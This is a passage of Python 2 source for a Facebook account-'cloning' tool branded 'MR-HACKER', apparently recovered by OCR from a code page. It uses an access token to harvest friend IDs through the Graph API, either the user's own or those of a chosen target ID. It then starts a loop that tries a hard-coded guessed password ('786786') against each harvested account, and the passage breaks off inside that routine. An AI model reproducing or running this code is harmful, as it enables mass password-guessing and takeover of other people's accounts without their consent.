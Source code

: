 	print "\033[1;96m--\033[1;91m> \033[1;91m0.\033[1;94mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mMR-HACKER\033[1;95m♡──────────•◈•──────────♡"
		jalan('\033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;96m[♡] \033[1;92mEnter ID\033[1;93m: \033[1;97m")
		print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mMR-HACKER\033[1;95m♡──────────•◈•──────────╯♡"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;92mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;94mAM1NUL\033[1;96m]")
			super()
		print"\033[1;93mGetting IDs\033[1;93m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))
	jalan('\033[1;92mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m«-----\x1b[1;93m♡To Stop Process Press CTRL+Z♡\033[1;94m----»"
	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mMR-HACKER\033[1;95m♡──────────•◈•──────────♡"
	jalan(' \033[1;93m ........Cloning Start plzzz Wait.......... ')
	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mMR-HACKER\033[1;95m♡──────────•◈•──────────♡"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:MR-HACKER
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')